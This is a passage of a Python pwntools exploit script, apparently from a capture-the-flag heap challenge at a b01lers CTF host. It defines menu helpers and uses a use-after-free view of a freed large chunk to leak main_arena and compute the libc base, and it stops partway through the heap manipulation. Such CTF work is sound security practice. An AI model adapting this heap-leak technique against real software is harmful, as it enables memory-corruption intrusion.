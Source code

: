 ```python
host, port = 'gold.b01le.rs', 4001

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

def alloc(idx, size):
    io.sendline(b'1')
    io.sendlineafter(b'Where?', str(idx).encode())
    io.sendlineafter(b'size?', str(size).encode())

def free(idx):
    io.sendline(b'2')
    io.sendlineafter(b'Where?', str(idx).encode())

def view(idx):
    io.sendline(b'3')
    io.sendlineafter(b'Where?', str(idx).encode())

def edit(idx, size, data):
    io.sendline(b'4')
    io.sendlineafter(b'Where?', str(idx).encode())
    io.sendlineafter(b'size?', str(size).encode())
    sleep(0.2)
    io.send(data)

def exploit():
    global io
    io = initialize()
    rop = ROP(exe)

    alloc(0, 0x500)
    alloc(1, 0x10)

    free(0)
    view(0)
    
    leak = io.recvline().strip()
    main_arena = u64(leak.ljust(8, b'\x00')) 
    libc.address = main_arena - 0x3afca0

    alloc(0, 0x500)

    alloc(2, 0x20)
    alloc(3, 0x20)
    free(3)
```